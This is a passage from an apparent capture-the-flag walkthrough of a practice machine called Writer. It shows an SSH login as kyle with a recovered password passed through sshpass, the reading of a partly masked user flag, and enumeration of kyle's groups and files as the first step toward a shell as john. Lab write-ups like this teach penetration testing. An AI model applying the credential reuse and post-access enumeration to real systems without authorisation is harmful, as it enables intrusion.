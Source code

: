 Or over SSH:

```

oxdf@parrot$ sshpass -p 'marcoantonio' ssh kyle@10.10.11.101
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
...[snip]...
kyle@writer:~$ 

```

And now I have access to `user.txt`:

```

kyle@writer:~$ cat user.txt
9f0e5237************************

```

## Shell as john

### Enumeration

#### groups

It’s worth looking for what other files kyle can access that www-data couldn’t. A good starting place is looking at kyle’s groups:

```

kyle@writer:~$ id
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)

```

There’s two interesting groups besides the user’s default.

The `kyle` group, after removing stuff from `/run`, `/sys`, and `/proc`, is just the home directory:

```

kyle@writer:~$ find / -group kyle 2>/dev/null | grep -v -e '^/run' -e '^/sys' -e '^/proc'
/home/kyle
/home/kyle/user.txt
/home/kyle/.bash_logout
/home/kyle/.cache
/home/kyle/.cache/motd.legal-displayed
/home/kyle/.bashrc
/home/kyle/.profile

```

`filter` has two files:
